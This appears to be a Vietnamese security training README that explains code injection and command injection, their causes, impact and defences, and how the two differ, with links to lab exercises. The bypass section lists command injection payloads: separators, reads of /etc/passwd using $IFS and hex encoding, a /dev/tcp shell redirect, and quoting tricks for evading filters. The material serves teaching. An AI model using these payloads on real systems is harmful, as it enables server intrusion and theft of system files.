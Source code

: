 ```
Task 10:
+ Tìm hiểu về lỗ hổng code injection  và command injection.(Khái niệm , nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Nêu ra điểm khác nhau giữa hai lỗi.
+ Làm lab demo hai lỗi trên.
```

# Code Injection
### Khái niệm
Code Injection là loại tấn công mà kẻ tấn công có thể chèn mã độc vào ứng dụng. Khi đó, ứng dụng thực thi đoạn mã độc đó và gây ảnh hưởng đến người dùng, máy chủ.
### Nguyên nhân
Nguyên nhân chính của `code injection` là việc không kiểm tra đầu vào đúng cách, sử dụng các thư viện không an toàn hoặc không cập nhật, hay không sử dụng các biện pháp bảo vệ bảo mật như mã hóa dữ liệu. Ngoài ra còn do server có các chức năng hoặc  thực hiện các hàm nguy hiểm mà người dùng kiểm soát được như: `eval()`, `system()`,...
### Tác hại 
- Tác hại của `code injection` có thể rất nghiêm trọng. Kẻ tấn công có thể truy cập và thay đổi dữ liệu, lấy cắp thông tin nhạy cảm, thực hiện các hành động trái phép trên hệ thống máy chủ, thậm chí kiểm soát toàn bộ máy chủ.
- Ngoài ra còn có thể dẫn đến các cuộc tấn công khác như: SQL injection, XXS, Command injection, ...
### Cách phòng chống
- Xác thực đầu vào như sử dụng whitelist: chỉ cho phép các từ kiểm soát được.
- Mã hóa: escape HTML entities để hạn chế nguy cơ thành mã độc hoặc mã hóa dữ liệu bằng cách khác trước khi được lưu trữ hoặc chuyển lên internet.
- Sử dụng tường lửa, các công cụ phát hiện tấn công và thường xuyên cập nhật thư viện an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/Code%20Injection%20Lab">lab</a>

# Commmand Injection
### Khái niệm
Command injection là lỗ hổng mà kẻ tấn công có thể thực thi câu lệnh hệ điều hành trên máy chủ của ứng dụng đó
### Nguyên nhân
Nguyên nhân chính của command injection là thiếu kiểm tra đầu vào của ứng dụng hoặc sử dụng các hàm không an toàn trong xử lý đầu vào như: `system()`, `eval()`, `exec()`, ...
Khi những lỗ hổng này xảy, kẻ tấn công có thể thực hiện các hành động trái phép nh như xem, sửa đổi hoặc xóa dữ liệu, kiểm soát toàn bộ hệ thống, và thực hiện các cuộc tấn công khác như DoS,...
### Tác hại
Tác hại của command injection rất nghiêm trọng. Kẻ tấn công có thể kiểm soát hoàn toàn hệ thống, đọc và sửa đổi các tập tin quan trọng, truy cập và thay đổi cơ sở dữ liệu, thực hiện các hành động trái phép trên mạng. Ngoài ra còn có thể dẫn đến các cuộc tấn công khác để đạt được mục đích kể tấn công.
### Bypass:
- Exploit: `; ls` `&& ls`, `| ls`, `|| ls`,...
- Bypass space:
  - Sử dụng `<`: `cat</etc/passwd`
  - Sử dụng `$IFS`: `cat$IFS/etc/passwd`
  - Hoặc dùng shell: `sh</dev/tcp/127.0.0.1/4242`
  - ...
- Bypass words:
  - quote: `w'h'o'am'i`, `w"h"o"am"i`
  - blackslash, slash: `w\ho\am\i`, `/\b\i\n/////s\h`
  - $@: `who$()ami`
  - $(): `who$()ami`
  - `/usr/bin/who*mi` => `/usr/bin/whoami`
  - `$0` => bash
- Bypass characters:
  - `${HOME:0:1}`, `. | tr '!-0' '"-1'`, `${PATH:0:1}` => `/`
  - `${LS_COLORS:10:1}` => `;`
- Encoding hex: `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64`, `2f6574632f706173737764` => `/etc/passwd`
- RCE with 4 or 5 char: <a href="https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-5-chars">here</a>
### Phòng chống
- Kiểm tra xác thực đầu vào: Dùng whitelist để cho phép các câu lệnh an toàn được thực thi, loại bỏ các ký tự có thể chèn mã đọc như: `;`, `"`, `'`, `|`, `&`,...
- Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng, ...
- Ngoài ra cần thường xuyên cập nhật ứng dùng, thư viên an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/CommandInjectionLab">lab</a>

  
## Khác nhau giữa Code injection và Command injection

- Code injection đề cập đến việc chèn 1 đoạn code độc hại và sẽ được thực thi trên ứng dụng đó. Khi ứng dụng chạy PHP thì sẽ chỉ chèn được code PHP hay với Nodejs thì là JavaScript,... Trong 1 số trường hợp thì lỗ hổng này thường chuyển sang lỗ hổng command injection.
- Command injection đề cập việc chèn 1 câu lệnh hệ thống trên máy chủ. Vì vậy câu lệnh tuy thuộc vào hệ điều hành máy chủ web hoặc là loại shell mà nó sử dụng. Lỗ hổng này cho kẻ tấn cống dễ dàng tấn công vào server hơn hoặc mở rộng chức năng của mặc định của ứng dụng, thực thi trực tiếp mà không cần chèn thêm code.
